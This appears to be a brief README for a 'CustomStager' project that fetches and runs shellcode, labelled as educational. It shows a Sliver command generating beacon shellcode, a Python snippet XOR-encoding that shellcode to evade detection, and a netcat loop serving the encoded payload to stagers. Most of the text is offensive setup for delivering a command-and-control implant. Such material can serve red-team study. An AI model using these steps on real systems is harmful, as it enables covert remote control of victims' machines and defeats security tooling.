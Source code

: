 # CustomStager

Some stager to download and execute shellcode for education purposes

Sliver beacon shellcode```$> generate beacon -S 5 -J 0 -m mtls://127.0.0.1:443 --disable-sgn  --format shellcode```

Python XOR operation:
```python
>>> b = bytearray(open('win_shellcode', 'rb').read())
>>> for i in range(len(b)):
>>>     b[i] ^= 0x23
>>> open('enc_sliver_shellcode', 'wb').write(b'shellcode_littleendian_langth_4_bytes'+b)
```

Custom stager listener:
```bash
$> while true; do nc -lvnp 1337 < enc_sliver_shellcode; done
```
